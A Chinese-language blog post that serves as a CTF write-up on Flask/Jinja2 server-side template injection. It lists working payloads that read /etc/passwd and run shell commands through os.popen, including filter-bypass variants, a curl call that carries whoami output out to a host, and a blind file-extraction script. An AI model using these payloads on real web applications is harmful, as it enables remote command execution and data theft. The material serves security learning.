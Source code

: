 ```yaml
---
layout: post
title:  "flask框架ssti ctf利用小结"
subtitle: 'flask框架ssti ctf利用小结'
date:   2020-04-08 18:00:00
tags: SSTI CTF WEB安全 
description: 'SSTI CTF WEB安全'
color: 'RGB(205,85,85)'
cover: 'https://i.loli.net/2020/04/08/SI4Y9qUnHKrLV3z.jpg' 
---
```


#### 前言
闲着刷攻防世界题目的时候遇到一个题目，打开一看可以明显感觉到是服务器模板注入（SSTI），对漏洞原理倒是了解，但是payload构造却难住了，搜索相关资料后做一个记录，加固理解并分享。

#### 题目源码

```
import flask
import os 

app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG') 

@app.route('/') 
def index(): 
    return open(__file__).read() 

@app.route('/shrine/') 
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
		blacklist = ['config', 'self'] 
		return ''.join(["{{% set {}=None %}}".format(c) for c in blacklist]) + s 
return flask.render_template_string(safe_jinja(shrine)) 

if __name__ == '__main__': 
	app.run(debug=True)
```

#### 服务端模板注入
当web应用使用模板系统（如twig，jinja2等），在网页中插入动态内容。当输入内容被恶意控制时，就会产生该漏洞。

#### 在python如何利用ssti攻击
在python中，object类是Python中所有类的基类，如果定义一个类时没有指定继承哪个类，则默认继承object类。

```
>>> print("".__class__)
>>> <class 'str'>
```
对于一个空字符串他已经打印了str类型，在python中，每个类都有一个bases属性，列出其基类。

```
>>> print("".__class__.__bases__)
(<type 'basestring'>,)
>>> print("".__class__.__base__.__base__)
<type 'object'>
>>> print("".__class__.__mro__)
(<type 'str'>, <type 'basestring'>, <type 'object'>)
```
这样就找到了他的基类object。也可以通过mro（解析方法调用的顺序）进行查找。
在flask ssti中poc中很大一部分是从object类中寻找我们可利用的类的方法。

```
>>> print("".__class__.__mro__[2].__subclasses__())
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'sys.getwindowsversion'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'nt.stat_result'>, <type 'nt.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <type 'operator.itemgetter'>, <type 'operator.attrgetter'>, <type 'operator.methodcaller'>, <type 'functools.partial'>, <type 'MultibyteCodec'>, <type 'MultibyteIncrementalEncoder'>, <type 'MultibyteIncrementalDecoder'>, <type 'MultibyteStreamReader'>, <type 'MultibyteStreamWriter'>]
```
使用subclasses()方法（返回的是这个类的子类的集合），返回object类子类的集合
接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。
瞅了一圈没找到。
尝试初始化了一些变量，但是没找到想要的东西，可能是因为是python2.7的缘故或者windows环境问题

```
print(object.__subclasses__()[61].__init__.__globals__)
```
不过问题不大，这里的主要目的明白即可。
==通过基类找到可以执行命令或者文件操作的类，然后找具体函数调用即可。==

一些payload
```
# object.__subclasses__()[40]为file类
object.__subclasses__()[40]('/etc/passwd').read()
# object.__subclasses__()[59].__init__.func_globals.linecache下直接有os类
object.__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()

```

然后就需要在ctf中各种过滤

##### 过滤中括号

```
使用__getitim__绕过中括号限制
request.__class__.__mro__.__getitem__(8)
```


##### 过滤引号

```
先获取chr函数，赋值给chr，后面拼接字符串
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read() }}
借助request对象
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
执行命令
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
```

##### 过滤双下划线

```
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

##### 过滤大括号

```
利用{%%}标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
相当于盲命令执行，利用curl将执行结果带出来
读取文件可以利用盲注的方法逐位将内容爆出来
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}
使用盲注脚本修改一下即可
# -*- coding: utf-8 -*-
import requests


url = 'http://127.0.0.1:8080/'

def check(payload):
    postdata = {
        'exploit':payload
        }
    r = requests.post(url, data=postdata).content
    return '~p0~' in r

password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'

for i in xrange(0,100):
    for c in s:
        payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
        if check(payload):
            password += c
            break
    print password
```

#### 题解
这个ctf题目过滤了括号，还加了黑名单[config , self ]  
这里就又涉及到另外一个知识  
flask 中内置的的变量函数  

##### flask 中内置的的变量函数  
```
config ：可以从模板中直接访问Flask当前的config对象：{{config.SQLALCHEMY_DATABASE_URL}}

request : 就是flask中代表当前请求的request对象 ， {{request.url}}

session :为Flask的session对象 ,{{session.new}} True

g变量：在视图函数中设置g变量的那么属性的值，然后再模板中直接可以取出{{g.name}}

url_for() : url_for会根据传入的路由器函数名，返回该路由的URL，在模板中始终使用url_for（）就可以安全的修改路由绑定的URL，则不必担心模板中渲染错的连接，{{url_for('home')}} ，如果我们定义的路由URL是带有参数的，则可以把他们作为关键字参数传入url_for（），Flask会把他们填充进最终生成的URL中，{{url_for('post',post_id=1)}}

get_flashed_messages():这个函数会返回之前在flask中通过flask（）传入的消息的列表，flash函数的作用很简单，可以把由Python字符串表示的信息加入一个消息队列中，在使用get_flashed_message()函数取出他们并消费掉


{%for message in get_flashed_messages()%}
{{message}}
{% endfor %}
```

##### payload
最后构造出如下payload

```
{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

#### 各类ssti的一些模板渲染引擎及利用
![7.png](https://xzfile.aliyuncs.com/media/upload/picture/20181221165627-4d167624-04fe-1.png)
#### 参考链接
https://xz.aliyun.com/t/3679  
https://p0sec.net/index.php/archives/120/